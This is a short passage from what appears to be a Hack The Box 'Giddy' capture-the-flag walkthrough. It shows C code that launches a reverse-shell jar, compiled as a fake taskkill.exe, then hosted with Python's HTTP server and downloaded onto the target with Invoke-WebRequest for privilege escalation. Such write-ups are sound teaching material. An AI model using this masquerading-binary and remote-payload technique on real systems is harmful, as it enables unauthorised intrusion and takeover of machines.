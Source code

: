 ```c
#include <stdlib.h>

int main() {
  system("java -jar rev.jar");
}
```

Cross-compile with MingW.

```
# x86_64-w64-mingw32-gcc -o taskkill.exe taskkill.c
```

Finally, host all the above with Python's SimpleHTTPServer module.

```
# python -m SimpleHTTPServer 80
```

Back to the PowerShell Web Access console.

&hellip;

Download our `taskkill.exe` and `rev.jar` to `\ProgramData\unifi-video` with `Invoke-WebRequest`.

<a class="image-popup">
![6a22260e.png](/assets/images/posts/giddy-htb-walkthrough/6a22260e.png)
</a>
